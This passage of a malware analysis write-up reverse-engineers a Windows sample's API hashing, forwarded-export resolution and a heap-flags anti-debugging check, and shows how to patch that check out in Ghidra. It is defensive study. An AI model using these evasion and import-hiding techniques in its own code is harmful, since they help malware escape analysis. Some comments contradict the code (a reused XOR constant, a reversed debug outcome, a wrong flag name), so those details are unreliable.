TEST       EAX,EAX            ; if not empty, is exported function implementation
JZ         LAB_00405c0c       ; Jump in case it was empty, to the start of the loop
							  ; to the next function name
JMP        LAB_00405c17       ; Jumps to the next set of instructions
    LAB_00405c17
MOVD       EAX,MM0            ; return the exported function implementation (API)
```
.
		- func_get_api_addr_from_fwexport (FUN_00405a84):
		Looking at the decompiled code seems misleading: the only relevant thing at first sight is that it checks if the global variables from the main function we are analysing right now are initialised, which we did at the start of the code, so this function can only be called after the previous function was executed.
		<div align="center"></div>
		If we look thoroughly at the code, we can see it attempts to operate with the forwarded exported function string that looks like `KERNEL32.SomeAPI`. From there, it searches for the point at the string that separates the library from the API. With that it retrieves the DLL/library that invokes it, copying it to a local buffer, also checking if the global variables are not empty with the functions [`LdrLoadDll`](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FLdrLoadDll.html)(`DAT_004253f8`) and [`LdrGetProcedureAddress`](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FLdrGetProcedureAddress.html)(`DAT_004253fc`) and then it passes the DLL name to the function `FUN_00405a20`.
```assembly
...
MOV     ESI, dword ptr [EBP + param_1] ; ESI = ptr to forwarded exported function
MOV     EDI,ESI              ; EDI = ptr to forwarded exported function
OR      ECX,0xFFFFFFFF       ; ECX = -1
MOV     AL,0x2E              ; AL = '.' (point between DLL and function)
SCASB.REPNE  ES:EDI          ; find the character '.' (separator of DLL and API)
NOT     ECX
DEC     ECX                  ; ECX = length until '.'
LEA     EDI,[EBP - 0x80]     ; EDI = local buffer
MOVSB.REP    ES:EDI,ESI      ; Copy DLL to local buffer
XOR     AL,AL                ; AL = 0
STOSB   ES:EDI               ; Add null terminator at the end of copied name
XOR     EAX,EAX              ; EAX = 0

; Verify if DAT_004253f8 y DAT_004253fc distinct from zero
CMP     dword ptr [DAT_004253f8],0x0
JZ      LAB_00405ae2
CMP     dword ptr [DAT_004253fc],0x0
JZ      LAB_00405ae2

; Invoke FUN_00405a20 with DLL name copied
PUSH    0                   ; Pass zero as parameter
LEA     EAX,[EBP - 0x80]    ; Local buffer w/ DLL name
PUSH    EAX                 ; Pass DLL name as parameter
CALL    FUN_00405a20
```
.
			- get_dll_handle_w_string (FUN_00405a20):
			Before analysing the function `FUN_004056f0`, which takes `local_10` as a reference parameter that will be modified by the function and the size, we will look at the `DAT_004253f8` being dynamically invoked, which was [`LdrLoadDll`](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FLdrLoadDll.html), which makes sense as we were passing to this function the DLL part of the forwarded exported function. Looking at the parameters of this function, using an alternate and undocumented function to load modules:
			IN `PWCHAR`                      `_PathToFile_` OPTIONAL,  --> 0 (optional as we can see)
			IN `ULONG`                         `_Flags_` OPTIONAL,          --> 0 (optional as we can see)
			IN `PUNICODE_STRING` `_ModuleFileName_`,  --> `local_10` has to be `UNICODE_STRING`
			OUT `PHANDLE`                  `_ModuleHandle_` --> `local_8` will be the handle of the DLL
			If we look at this and look at the function once again, then we see that it checks if `param_2` is zero; in case it's zero, it saves each character converted to `ushort` (2 bytes), Unicode, to `local_218`; otherwise, it will mean `param_1` is actually Unicode (`WCHAR`).
			<div align="center"></div>
			- create_unicode_string_struct (FUN_004056f0):
				This function creates in `param_1` the structure [`UNICODE_STRING`](https://learn.microsoft.com/en-us/windows/win32/api/subauth/ns-subauth-unicode_string) with the DLL unicode string (`WCHAR`) needed to get the `DllHandle` with [`LdrLoadDll`](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FLdrLoadDll.html).
```assembly
MOV     EDI,[EBP+param_2]      ; EDI = pointer to string (WCHAR)
MOV     EDX,[EBP+param_1]      ; EDX = destination (UNICODE_STRING structure)
MOV     dword ptr [EDX],0x0    ; UNICODE_STRING.Length = 0
MOV     dword ptr[EDX+0x4],EDI ; UNICODE_STRING.Buffer = param_2
...
OR      ECX,0xFFFFFFFF         ; ECX = -1
XOR     EAX,EAX                ; EAX = 0
SCASW.REP ES:EDI               ; Search for wide string null terminator (0x0000)
NOT     ECX                    ; ECX = length (in words)
CMP     ECX,0xFFFF             ; If length < 0xFFFF
JBE     LAB_00405720           ; valid, stays with calculated length
MOV     ECX,0xFFFF             ; ECX = 0xFFFF if exceeded
	LAB_00405720:
SHL     ECX,1                  ; ECX *= 2 → length in bytes
MOV     word ptr [EDX+0x2],CX  ; UNICODE_STRING.MaximumLength = byte length
DEC     ECX
DEC     ECX     ; ECX = actual length without null terminator (unicode char=2bytes)
MOV     [EDX],CX               ; UNICODE_STRING.Length = byte length - 2
```
.
				Based on the functionality, we will rename the function to `create_unicode_string_struct()`:
				<div align="center"></div>
			So the function gets a handle to the passed DLL string; because of that, we will rename the function to `get_dll_handle_w_string()`:
			<div align="center"></div>
		So after getting the handle of the DLL, now we retrieve the API function of the DLL after that point, extracting that substring. Then we enter the function `FUN_004059d4` with the DLL handle and the API function of the DLL.
```assembly
...
CALL    get_dll_handle_w_string
MOV     EBX,EAX             ; EBX = Dll handle
TEST    EBX,EBX
JZ      LAB_00405ae2        ; if DLL handle not retrieved return zero

; Copy the rest of the original string after the '.'
INC     ESI                  ; Skip '.'
LEA     EDI,[EBP - 0x80]     ; EDI = local buffer
	LAB_00405ace:         ; LAB_00405ace - Copy substring after '.' to local buffer
MOV     CL, byte ptr [ESI]    ; Read a byte from source (after '.')
MOV     byte ptr [EDI], CL    ; Write it to destination buffer
INC     ESI                   ; Move to next byte in source
INC     EDI                   ; Move to next byte in destination
TEST    CL, CL                ; Check if byte was null terminator
JNZ     LAB_00405ace          ; If not null, continue copying


; Invoke FUN_004059d4 with function name (API) and DLL handle
LEA     EAX,[EBP - 0x80]    ; EAX = local buffer with API name
PUSH    EAX                 ; pass local buffer with API name to the function
PUSH    EBX                 ; pass the dll handle to the function
CALL    FUN_004059d4

	LAB_00405ae2:
...
RET     0x4
```
.
			- get_api_function_from_dll (FUN_004059d4)
			 <div align="center"></div>
			There we can see at the decompiled function that checks if `param_2` is two bytes or less, `param_2 <= 0xffff`, because an ordinal is a `WORD` (2 bytes). If it's two bytes or less and treats `param_2` as an ordinal, then it invokes the `DAT_004253fc`, [`LdrGetProcedureAddress`](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FLdrGetProcedureAddress.html), with the next params, where the gimmick is that `FunctionName` and `ordinal` can be zero, but one of them has to be declared. 
			  IN `HMODULE`            `_ModuleHandle_`,                      --> `param_1`
			  IN `PANSI_STRING`     `_FunctionName_` OPTIONAL,    --> 0
			  IN `WORD`                  `_Ordinal_` OPTIONAL,               --> `param_2`
              OUT `PVOID`               `_*FunctionAddress_` );                --> `local_8`
            Then it returns to `local_8` the FunctionAddress to the API, which is returned in the function.
			Otherwise, if it was bigger than 2 bytes then it's a string, and converts it to [`ANSI_STRING`](https://learn.microsoft.com/en-us/windows/win32/api/ntdef/ns-ntdef-string) structure for the `FunctionName`, returning `local_10` as a pointer to it.
			And with that structure, `DAT_004253fc`, [`LdrGetProcedureAddress`](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FLdrGetProcedureAddress.html) is invoked with these parameters:
			  IN `HMODULE`            `_ModuleHandle_`,                      --> `param_1`
			  IN `PANSI_STRING`     `_FunctionName_` OPTIONAL,    --> `local_10`
			  IN `WORD`                  `_Ordinal_` OPTIONAL,               --> 0
              OUT `PVOID`               `_*FunctionAddress_` );                --> `local_8`
            Then it returns to `local_8` the FunctionAddress to the API, which is returned in the function.
            With the functionality being clear, then we will rename it to `get_api_function_from_dll()`:
            <div align="center"></div>
	            - create_ansi_string_struct (FUN_00405734):
	            As we can see reading the assembly code, it creates the [`ANSI_STRING`](https://learn.microsoft.com/en-us/windows/win32/api/ntdef/ns-ntdef-string) structure.
```assembly
MOV     EDI,[EBP+param_2]       ; EDI = pointer to string (ANSI)
MOV     EDX,[EBP+param_1]       ; EDX = destination (ANSI_STRING structure)
MOV     dword ptr [EDX],0x0     ; ANSI_STRING.Length = 0
MOV     dword ptr [EDX+0x4],EDI ; ANSI_STRING.Buffer = param_2
OR      ECX,0xFFFFFFFF          ; ECX = -1
XOR     EAX,EAX                 ; EAX = 0
SCASB.REP ES:EDI                ; Search for ANSI null terminator (0x00)
NOT     ECX                     ; ECX = length (including null terminator)
CMP     ECX,0xFFFF              ; If length < 0xFFFF
JBE     LAB_00405763            ; valid, use calculated length
MOV     ECX,0xFFFF              ; clamp to 0xFFFF if exceeded
	LAB_00405763:
MOV     word ptr [EDX+0x2],CX   ; ANSI_STRING.MaximumLength = byte length
DEC     ECX
MOV     word ptr [EDX],CX       ; ANSI_STRING.Length = byte length - 1 
								; (no null terminator)
```
.
				As we did before, based on the functionality, the function will be renamed to `create_ansi_string_struct()`.
				<div align="center"></div>
		So, with that we retrieve the address of the API function from the DLL, and return it.
```assembly
...
CALL    get_api_function_from_dll  ; EAX = API Address VA

	LAB_00405ae2:
...
RET     0x4
```
.
		Based on the functionality, it then retrieves the address of the API function from the forwarded exported function in order to obtain a reference to the code. The function will be renamed to `func_get_api_addr_from_fwexport()`.
		<div align="center"></div>
	Now that we understand what the last function does, the overall routine attempts to dynamically resolve API function addresses based on a target hash. It does so by iterating through each loaded DLL in the process and applying a **custom DLL hashing function** to compute a module-specific hash. Then, for each exported function within that DLL, it applies a second **custom API name hashing function**, combines both hashes, and compares the result with the target hash. When a match is found, the function retrieves the address of the corresponding API. If the export is **forwarded** (i.e., it points to another DLL), the code calls a helper routine to manually resolve the final address from the forwarded module.
```assembly
    LAB_00405baa:
...
CALL EAX=>func_get_api_addr_from_fwexport  ; Call func_get_api_addr_from_fwexport
MOVD       MM0,EAX            ; Replace MM0 value with the api function address
    LAB_00405bf5                                    
JMP        LAB_00405c03       ; JMP without condition
	LAB_00405c03
MOVD       EAX,MM0            ; EAX = api function address 
TEST       EAX,EAX            ; if not empty, is exported function address
JZ         LAB_00405c0c       ; Jump in case it was empty, to the start of the loop
							  ; to the next function name
JMP        LAB_00405c17       ; Jumps to the next set of instructions
    LAB_00405c17
MOVD       EAX,MM0            ; return the exported function implementation (API)
```
.
	With that being clear, we will rename the function to `api_hashing_func()`.
	<div align="center"></div>
	Also, we will rename `DAT_004253fc` to `getproc_func`, because it has the function [`LdrGetProcedureAddress`](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FLdrGetProcedureAddress.html), and `DAT_004253f8` to `loaddll_func`, because it has the function [`LdrLoadDll`](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FLdrLoadDll.html).
	<div align="center"></div>
	<div align="center"></div>
  
After being back at `FUN_0040639c` and renaming variables and setting comments to have a remainder of the imported functions, we can see that the function `FUN_00405da0` is being invoked multiple times, so we will analyse it after seeing how [`RtlCreateHeap`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlcreateheap) is used.
<div align="center"></div>

First, before diving into it, the [`RtlCreateHeap`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlcreateheap) is invoked, returning a handle to the created heap. The first parameter is the flags, which is undocumented, but if we look at the implementation of [`rtltypes.h`](https://doxygen.reactos.org/d5/df7/ndk_2rtltypes_8h_source.html#l00125) from ReactOS, which is practically the same as it's compatible with Windows versions because Microsoft functions are poorly documented, starting from line 125 there we can see clearly all the heap flags.
```c
//
// Public Heap Flags
//
#define HEAP_NO_SERIALIZE                                   0x00000001
#define HEAP_GROWABLE                                       0x00000002
#define HEAP_GENERATE_EXCEPTIONS                            0x00000004
#define HEAP_ZERO_MEMORY                                    0x00000008
#define HEAP_REALLOC_IN_PLACE_ONLY                          0x00000010
#define HEAP_TAIL_CHECKING_ENABLED                          0x00000020
#define HEAP_FREE_CHECKING_ENABLED                          0x00000040
#define HEAP_DISABLE_COALESCE_ON_FREE                       0x00000080
#define HEAP_CREATE_ALIGN_16                                0x00010000
#define HEAP_CREATE_ENABLE_TRACING                          0x00020000
#define HEAP_CREATE_ENABLE_EXECUTE                          0x00040000
...
//
// User-Defined Heap Flags and Classes
//
#define HEAP_SETTABLE_USER_VALUE                            0x00000100
#define HEAP_SETTABLE_USER_FLAG1                            0x00000200
#define HEAP_SETTABLE_USER_FLAG2                            0x00000400
#define HEAP_SETTABLE_USER_FLAG3                            0x00000800
#define HEAP_SETTABLE_USER_FLAGS                            0x00000E00
#define HEAP_CLASS_0                                        0x00000000
#define HEAP_CLASS_1                                        0x00001000
#define HEAP_CLASS_2                                        0x00002000
#define HEAP_CLASS_3                                        0x00003000
#define HEAP_CLASS_4                                        0x00004000
#define HEAP_CLASS_5                                        0x00005000
#define HEAP_CLASS_6                                        0x00006000
#define HEAP_CLASS_7                                        0x00007000
#define HEAP_CLASS_8                                        0x00008000
#define HEAP_CLASS_MASK                                     0x0000F000
//
// Internal HEAP Structure Flags
//
#define HEAP_FLAG_PAGE_ALLOCS                               0x01000000
#define HEAP_PROTECTION_ENABLED                             0x02000000
#define HEAP_BREAK_WHEN_OUT_OF_VM                           0x04000000
#define HEAP_NO_ALIGNMENT                                   0x08000000
#define HEAP_CAPTURE_STACK_BACKTRACES                       0x08000000
#define HEAP_SKIP_VALIDATION_CHECKS                         0x10000000
#define HEAP_VALIDATE_ALL_ENABLED                           0x20000000
#define HEAP_VALIDATE_PARAMETERS_ENABLED                    0x40000000
#define HEAP_LOCK_USER_ALLOCATED                            0x80000000
```
In this case the flag 0x00041002 set is :
- [`HEAP_CREATE_ENABLE_EXECUTE`](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapcreate#parameters) = `0x00040000` -> Allows code execution from the heap
- [`HEAP_CLASS_1`](https://ntdoc.m417z.com/heap_class_1) = `0x00001000`  -> Private heap
- [`HEAP_GROWABLE`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlcreateheap#parameters) = `0x00000002` -> Means that the heap is dynamic and not fixed to a size; that's why the size in the parameters is zero.

Based on the flag, we are setting a private growable heap, where we will allow the execution of code, meaning it will dynamically load code in the heap and execute it.

If we look closely at the assembly, there is an anti-debugging evasion technique that is pretty hard to see at first sight, as it's a small operation that at first sight seems meaningless, but if we analyse it line by line and see at what pointer it is looking after applying the offset, we will see a sophisticated technique of anti-debugging evasion.
```assembly
CALL   EAX        ; call eax/createheap_func (RtlCreateHeap), the result overwrites
			      ; eax/createheap_func by the handle (handle_createdheap)
MOV    ESI,EAX    ; ESI = returned handle of heap, copies the handle
...
MOV    EAX,[EAX+0x40] ; EAX = Heap.flags, EAX size is 4 bytes (the same as 
					  ; Heap.flags) so it takes from the handle that amount of data
SHR    EAX,0x1C       ; shifts 28 bits until it gets to the last bits
TEST   EAX,0x04       ; Checks if bit 30 is active (VALIDATE_PARAMETERS_ENABLED)
JZ     LAB_004063dd   ; Skips if not debugged, because the active bit is
					  ; automatically activated when it's debugged
ROL    ESI,0x1        ; Rotates ESI (handle) one bit to left, corrupting it
	LAB_004063dd:
...
```

About the offset, we can see it in the `HEAP` structure, where the handle with an offset of `0x40` points to the parameter flags of 4 bytes. [`source`](https://www.vergiliusproject.com/kernels/x86/windows-10/22h2/_HEAP)
```c
//0x258 bytes (sizeof)
struct _HEAP
{
    union
    {
        struct _HEAP_SEGMENT Segment;                                       //0x0
        struct
        {
            struct _HEAP_ENTRY Entry;                                       //0x0
            ULONG SegmentSignature;                                         //0x8
            ULONG SegmentFlags;                                             //0xc
            struct _LIST_ENTRY SegmentListEntry;                            //0x10
            struct _HEAP* Heap;                                             //0x18
            VOID* BaseAddress;                                              //0x1c
            ULONG NumberOfPages;                                            //0x20
            struct _HEAP_ENTRY* FirstEntry;                                 //0x24
            struct _HEAP_ENTRY* LastValidEntry;                             //0x28
            ULONG NumberOfUnCommittedPages;                                 //0x2c
            ULONG NumberOfUnCommittedRanges;                                //0x30
            USHORT SegmentAllocatorBackTraceIndex;                          //0x34
            USHORT Reserved;                                                //0x36
            struct _LIST_ENTRY UCRSegmentList;                              //0x38
        };
    };
    ULONG Flags;                                                            //0x40
    ULONG ForceFlags;                                                       //0x44
    ULONG CompatibilityFlags;                                               //0x48
    ULONG EncodeFlagMask;                                                   //0x4c
    struct _HEAP_ENTRY Encoding;                                            //0x50
    ULONG Interceptor;                                                      //0x58
    ULONG VirtualMemoryThreshold;                                           //0x5c
    ULONG Signature;                                                        //0x60
    ULONG SegmentReserve;                                                   //0x64
    ULONG SegmentCommit;                                                    //0x68
    ULONG DeCommitFreeBlockThreshold;                                       //0x6c
    ULONG DeCommitTotalFreeThreshold;                                       //0x70
    ULONG TotalFreeSize;                                                    //0x74
    ULONG MaximumAllocationSize;                                            //0x78
    USHORT ProcessHeapsListIndex;                                           //0x7c
    USHORT HeaderValidateLength;                                            //0x7e
    VOID* HeaderValidateCopy;                                               //0x80
    USHORT NextAvailableTagIndex;                                           //0x84
    USHORT MaximumTagIndex;                                                 //0x86
    struct _HEAP_TAG_ENTRY* TagEntries;                                     //0x88
    struct _LIST_ENTRY UCRList;                                             //0x8c
    ULONG AlignRound;                                                       //0x94
    ULONG AlignMask;                                                        //0x98
    struct _LIST_ENTRY VirtualAllocdBlocks;                                 //0x9c
    struct _LIST_ENTRY SegmentList;                                         //0xa4
    USHORT AllocatorBackTraceIndex;                                         //0xac
    ULONG NonDedicatedListLength;                                           //0xb0
    VOID* BlocksIndex;                                                      //0xb4
    VOID* UCRIndex;                                                         //0xb8
    struct _HEAP_PSEUDO_TAG_ENTRY* PseudoTagEntries;                        //0xbc
    struct _LIST_ENTRY FreeLists;                                           //0xc0
    struct _HEAP_LOCK* LockVariable;                                        //0xc8
    LONG (*CommitRoutine)(VOID* arg1, VOID** arg2, ULONG* arg3);            //0xcc
    union _RTL_RUN_ONCE StackTraceInitVar;                                  //0xd0
    struct _RTL_HEAP_MEMORY_LIMIT_DATA CommitLimitData;                     //0xd4
    VOID* FrontEndHeap;                                                     //0xe4
    USHORT FrontHeapLockCount;                                              //0xe8
    UCHAR FrontEndHeapType;                                                 //0xea
    UCHAR RequestedFrontEndHeapType;                                        //0xeb
    WCHAR* FrontEndHeapUsageData;                                           //0xec
    USHORT FrontEndHeapMaximumIndex;                                        //0xf0
    volatile UCHAR FrontEndHeapStatusBitmap[257];                           //0xf2
    struct _HEAP_COUNTERS Counters;                                         //0x1f4
    struct _HEAP_TUNING_PARAMETERS TuningParameters;                        //0x250
}; 
```
To justify this anti-debugging technique, according to the [`Checkpoint article`](https://anti-debug.checkpoint.com/techniques/debug-flags.html#manual-checks-heap-flags), there are some flags manually set when debugging the program and [`RtlCreateHeap`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlcreateheap) is invoked that are, in our case on a 64-bit system, the following flags:
- [`HEAP_VALIDATE_PARAMETERS_ENABLED`](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/enable-heap-parameter-checking) (`0x40000000`) -> Verifies selected aspects of the heap whenever a heap function is called.
- [`HEAP_FREE_CHECKING_ENABLED`](https://anti-debug.checkpoint.com/techniques/debug-flags.html#manual-checks-heap-protection) (`0x00000040`) -> Freed memory is filled with `0xFEEEFEEE` to detect improper access.
- [`HEAP_TAIL_CHECKING_ENABLED`](https://anti-debug.checkpoint.com/techniques/debug-flags.html#manual-checks-heap-protection) (`0x00000020`) -> Appends at the end the sequence `0xABABABAB` (twice in 32-bit and 4 times in 64-bit Windows) to check if there is any overflow.
- [`HEAP_GROWABLE`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlcreateheap#parameters) (`0x00000002`) -> Means that the heap is dynamic and not fixed to a size; that's why the size in the parameters is zero.
In ReactOS, something similar is done with the function [`RtlDebugCreateHeap`](https://doxygen.reactos.org/d4/dc8/heapdbg_8c_source.html#l00080), which is called when the function is being debugged, wherein at line 80 it can be seen how it sets flags manually. Also, at [`RtlCreateHeap`](https://doxygen.reactos.org/d8/dc5/sdk_2lib_2rtl_2heap_8c_source.html#l01494) line 1494, there are some flags set manually, where the interesting part is that if it's executed in user mode and the flag from `NtGlobalFlags` has the flag `FLG_HEAP_VALIDATE_PARAMETERS` activated, then it will activate the flag [`HEAP_VALIDATE_PARAMETERS_ENABLED`](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/enable-heap-parameter-checking).
---
To confirm this, we will go to x32dbg and manually retrieve the [`RtlCreateHeap`](https://doxygen.reactos.org/d8/dc5/sdk_2lib_2rtl_2heap_8c_source.html#l01494) handle.  
First, we will go to the part where the [`RtlCreateHeap`](https://doxygen.reactos.org/d8/dc5/sdk_2lib_2rtl_2heap_8c_source.html#l01494) returns the handle, as we did before, and put a breakpoint on the next instruction, running it until we reach that breakpoint:
<div align="center"></div>

After that, we will right-click the register `EAX` and go to the option `Follow in Dump > EAX: {address}`:
<div align="center"></div>

Now that we see the `EAX` register, we can see the address of `EAX` is at `0x02E20000`, and the offset that the program is looking at for the flags is `0x2E20040` (`0x02E20000 + 0x40`), highlighted in grey. We can clearly see that the flag changes to `0x40041062`, instead of `0x00041002`, with the difference that it now has the following flags active: [`HEAP_VALIDATE_PARAMETERS_ENABLED`](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/enable-heap-parameter-checking) (`0x40000000`), [HEAP_FREE_CHECKING_ENABLED](https://anti-debug.checkpoint.com/techniques/debug-flags.html#manual-checks-heap-protection) (`0x00000040`), and [`HEAP_TAIL_CHECKING_ENABLED`](https://anti-debug.checkpoint.com/techniques/debug-flags.html#manual-checks-heap-protection) (`0x00000020`).
<div align="center"></div>


---
The flag, when being debugged, is then `0x40041062`, provoking that from the 28-bit to the 30, the flag [`HEAP_VALIDATE_PARAMETERS_ENABLED`](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/enable-heap-parameter-checking) is isolated, being 4, the check to do.
- [`HEAP_VALIDATE_PARAMETERS_ENABLED`](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/enable-heap-parameter-checking) = `0x40000000` -> Verifies selected aspects of the heap whenever a heap function is called  
- [`HEAP_CREATE_ENABLE_EXECUTE`](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapcreate#parameters) = `0x00040000` -> Allows code execution from the heap.  
- [`HEAP_CLASS_1`](https://ntdoc.m417z.com/heap_class_1) = `0x00001000` -> Private heap.  
- [`HEAP_FREE_CHECKING_ENABLED`](https://anti-debug.checkpoint.com/techniques/debug-flags.html#manual-checks-heap-protection) = `0x00000040` -> Freed memory is filled with `0xFEEEFEEE` to detect improper access.  
- [`HEAP_TAIL_CHECKING_ENABLED`](https://anti-debug.checkpoint.com/techniques/debug-flags.html#manual-checks-heap-protection) = `0x00000020` -> Appends at the end the sequence `0xABABABAB` (twice in 32-bit and 4 times in 64-bit Windows) to check if there is any overflow.  
- [`HEAP_GROWABLE`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlcreateheap#parameters) = `0x00000002` -> Means that the heap is dynamic and not fixed to a size, that's why the size in the parameters is zero.

The process can be seen as:
1. Save the handle in `EAX` to `ESI` to keep it safe.
2. Get a copy of `EAX` from `EAX` at the offset `0x40`, where the flags are in the handle.
3. From there shift 28 bits, to see if the flag [`HEAP_FREE_CHECKING_ENABLED`](https://anti-debug.checkpoint.com/techniques/debug-flags.html#manual-checks-heap-protection) (`0x00000040`) is active.
	- Without debugger (`0x00041002`):
		Binary:    `0000 0000 0000 0100 0001 0000 0000 0010`  
	                 ↓↓↓ shift 28 bits right ↓↓↓  
		Result:    `0000 0000 0000 0000 0000 0000 0000 0000` = `0x0` (not debugged)
	- With debugger (`0x40041062`):
		Binary:    `0100 0000 0000 0100 0001 0000 0110 0010`  
	                 ↓↓↓ shift 28 bits right ↓↓↓  
		Result:    `0000 0000 0000 0000 0000 0000 0000 0100` = `0x4` (debugged)
4. Check with `TEST EAX, 0x04`, if `EAX` equals to `0x4`. If it equals, it is debugged.
	- Debugged: Doesn't alter `ESI` (the heap handle)
	- Not debugged: Corrupts `ESI` (the heap handle) by performing a `ROR` of 1 bit.

- load_apis_func (FUN_00405da0)
	Now at the function `FUN_00405da0` we will analyse the functionality before analysing what each invoked function achieves.  
	At first sight, it does weird things that have hidden purposes. First we will look at the first invoked function, `FUN_00405c24`.
	<div align="center"></div>
  
	Before invoking the function `FUN_00405c24`, it does a curious thing: it takes the first 4 bytes of `param_2` with `LODSD`, and with those 4 bytes, it performs an `XOR` with the mask `0x10035fff` and passes it to the function `FUN_00405c24`. Ghidra decompilation doesn't take the value of `param_2` into account. Later we will analyse each function invocation, being more specific about what each one achieves.
```assembly
MOV     ESI,dword ptr [EBP + param_2]  ; ESI = param_2
LODSD   ESI                            ; EAX = Retrieve first 4 bytes of ESI;ESI+=4
XOR     EAX,0x10035fff                 ; EAX = DWORD[param_2] ^ 0x10035fff
PUSH    EAX                            ; pass EAX to the function
CALL    FUN_00405c24                   
```
.
	- sys32_dll_or_drv_hash_function (FUN_00405c24)
		Looking at the decompiled code, it first retrieves other functions with the `api_hashing_func()` using some specific hashes, obtained by performing an `XOR` operation.
		<div align="center"></div>
		First, we will obtain each data retrieval function to better understand their use.

---
.
		To obtain it we will need to debug it, but if you may remember, the program uses an anti-debugging technique. Therefore, before doing anything, we will bypass it by copying the program, modifying it to avoid altering the heap handle, and then debugging normally.
		We will copy the original executable, decompile it, go directly to the `ROL` operation, and replace it with `NOP` instructions using Ghidra.
		After decompressing it to another folder and renaming the executable to identify it more easily, we will decompile it again with Ghidra as before.
		<div align="center"></div>
		First we import it:
		<div align="center"></div>
		Analyse it as always: 
		<div align="center"></div>
		We go to the point where the handle was being destroyed by the `ROL` instruction. Then, we right-click the instruction and select the `Patch Instruction` option.
		<div align="center"></div>
		That will allow us to rewrite the instruction, as it will be highlighted, indicating it can be modified. Delete the existing instruction and replace it with `NOP` instructions so that nothing happens if it's being debugged.
		<div align="center"></div>
		<div align="center"></div>
		<div align="center"></div>
		Also, save the program using the `File` option to be able to continue modifying it later:
		<div align="center"></div>
		But that's not all, we need to export the actual patched program:
		<div align="center"></div>
		And select as the output the original file:
		<div align="center"></div>
		<div align="center"></div>
		Now, when we debug this new program, it will not corrupt the handle, as we got rid of the anti-debugging technique.
		We can verify in x32dbg that now it does nothing (`NOP`) when it detects it's being debugged:
		<div align="center"></div>

---
.
		* findfirstfilew_func (DAT_00425400):
```assembly
CMP     dword ptr [DAT_00425400],0x0   ; DAT_00425400 != 0 ?
JNZ     LAB_00405c56                   ; != 0 skip, == 0 load
MOV     EAX,0xca19f15d                 ; move data to perform XOR
XOR     EAX,0x10035fff                 ; EAX = 0xCA19F15D ^ 0x10035FFF = 0xDA1CC142
MOV     [DAT_00425400],EAX             ; DAT_00425400 = 0xDA1CC142 (temporary)
PUSH    dword ptr [DAT_00425400]       ; push hash (DAT_00425400)
CALL    api_hashing_func               ; EAX = loaded function                 
MOV     [DAT_00425400],EAX             ; DAT_00425400 = EAX = loaded function
```
.
			Debugging it with x32dbg, putting a breakpoint at the `MOV` instruction to see which function it has loaded:
			<div align="center"></div>
			If we run the program, we will see that it loads the function [`FindFirstFileW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-findfirstfilew):
			<div align="center"></div>
			To make the data visualization easier, we will rename the global variable to `findfirstfilew_func`:
			<div align="center"></div>

.
		* findnextfilew_func (DAT_00425404):
```assembly
CMP     dword ptr [DAT_00425404],0x0   ; DAT_00425404 != 0 ?
JNZ     LAB_00405c7e                   ; != 0 skip, == 0 load
MOV     EAX,0x4769962a                 ; move data to perform XOR
XOR     EAX,0x10035fff                 ; EAX = 0x4769962A ^ 0x10035FFF = 0x576CE635
MOV     [DAT_00425404],EAX             ; DAT_00425404 = 0x576CE635 (temporary)
PUSH    dword ptr [DAT_00425404]       ; push hash (DAT_00425404)
CALL    api_hashing_func               ; EAX = loaded function                 
MOV     [DAT_00425404],EAX             ; DAT_00425404 = EAX = loaded function
```
.
			Debugging it with x32dbg, putting a breakpoint at the `MOV` instruction to see which function it has loaded:
			<div align="center"></div>
			If we run the program, we will see that it loads the function [`FindNextFileW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-findnextfilew):
			<div align="center"></div>
			To make the data visualisation easier, we will rename the global variable to `findnextfilew_func`:
			<div align="center"></div>
	.
		* findclose_func (DAT_00425408):
```assembly
CMP     dword ptr [DAT_00425408],0x0   ; DAT_00425408 != 0 ?
JNZ     LAB_00405ca6                   ; != 0 skip, == 0 load
MOV     EAX,0x4769962a                 ; move data to perform XOR
XOR     EAX,0x10035fff                 ; EAX = 0x68436583 ^ 0x10035FFF = 0x7846107C
MOV     [DAT_00425408],EAX             ; DAT_00425408 = 0x7846107C (temporary)
PUSH    dword ptr [DAT_00425408]       ; push hash (DAT_00425408)
CALL    api_hashing_func               ; EAX = loaded function                 
MOV     [DAT_00425408],EAX             ; DAT_00425408 = EAX = loaded function
```
.
			Debugging it with x32dbg, putting a breakpoint at the `MOV` instruction to see which function it has loaded:
			<div align="center"></div>
			If we run the program, we will see that it loads the function [`FindClose`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-findclose):
			<div align="center"></div>
